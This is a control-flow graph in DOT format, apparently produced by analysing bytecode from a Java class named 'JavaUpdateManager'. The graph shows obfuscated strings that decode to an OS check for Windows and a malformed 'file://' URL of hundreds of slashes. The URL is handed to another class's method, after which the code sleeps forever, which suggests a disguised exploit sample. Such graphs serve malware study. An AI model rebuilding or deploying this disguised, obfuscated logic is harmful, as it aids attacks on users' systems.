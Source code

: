 digraph "" {
    "r0 := @this: JavaUpdateManager"
    "push 1"
    "r0 := @this: JavaUpdateManager"->"push 1";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 47"
    "pop"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <JavaUpdateManager: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <JavaUpdateManager: java.lang.String repeat(char,int)>";
    "store.r r44"
    "staticinvoke <JavaUpdateManager: java.lang.String repeat(char,int)>"->"store.r r44";
    "push \"o8.7a63\""
    "store.r r44"->"push \"o8.7a63\"";
    "push \"8\""
    "push \"o8.7a63\""->"push \"8\"";
    "push \"s\""
    "push \"8\""->"push \"s\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"s\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"7\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"7\"";
    "push \"n\""
    "push \"7\""->"push \"n\"";
    "push \"n\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"6\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"6\"";
    "push \"m\""
    "push \"6\""->"push \"m\"";
    "push \"m\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"3\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"3\"";
    "push \"e\""
    "push \"3\""->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push 0"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"1i2\""
    "pop"->"push \"1i2\"";
    "push \"2\""
    "push \"1i2\""->"push \"2\"";
    "push \"2\""->"push \"n\"";
    "push \"n\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"1\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"1\"";
    "push \"w\""
    "push \"1\""->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "store.r $r27"
    "new java.lang.StringBuilder"->"store.r $r27";
    "load.r $r27"
    "store.r $r27"->"load.r $r27";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "load.r $r27"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r27";
    "push \"1357://\""
    "load.r $r27"->"push \"1357://\"";
    "push \"1357://\""->"push \"7\"";
    "push \"7\""->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "push \"5\""
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"5\"";
    "push \"l\""
    "push \"5\""->"push \"l\"";
    "push \"l\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"1\"";
    "push \"f\""
    "push \"1\""->"push \"f\"";
    "push \"f\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"push \"3\"";
    "push \"i\""
    "push \"3\""->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r $r27";
    "load.r r44"
    "load.r $r27"->"load.r r44";
    "load.r r44"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"pop";
    "pop"->"load.r $r27";
    "push \"3%3%3%3%3%3%\""
    "load.r $r27"->"push \"3%3%3%3%3%3%\"";
    "push \"3%3%3%3%3%3%\""->"push \"3\"";
    "push \"Z\""
    "push \"3\""->"push \"Z\"";
    "push \"Z\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r $r27";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "load.r $r27"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r27";
    "load.r r0"
    "store.r $r27"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "virtualinvoke <JavaUpdateManager: java.lang.String __v()>"
    "load.r r0"->"virtualinvoke <JavaUpdateManager: java.lang.String __v()>";
    "virtualinvoke <JavaUpdateManager: java.lang.String __v()>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"10101010\""
    "pop"->"push \"10101010\"";
    "push \"10101010\""->"push \"1\"";
    "push \"9\""
    "push \"1\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaUpdateManager: java.nio.IntBuffer[] __P(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaUpdateManager: java.nio.IntBuffer[] __P(java.lang.String,java.lang.String)>";
    "fieldput <JavaUpdateManager: java.nio.IntBuffer[] __e>"
    "virtualinvoke <JavaUpdateManager: java.nio.IntBuffer[] __P(java.lang.String,java.lang.String)>"->"fieldput <JavaUpdateManager: java.nio.IntBuffer[] __e>";
    "new java.net.URL"
    "fieldput <JavaUpdateManager: java.nio.IntBuffer[] __e>"->"new java.net.URL";
    "dup1.r"
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r $r27";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r $r27"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <JavaUpdateApplication: void __C(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <JavaUpdateApplication: void __C(java.net.URL)>";
    "staticinvoke <JavaUpdateApplication: void __C(java.net.URL)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto push 10L"
    "pop"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r0";
    "store.r r0"->"return";
}
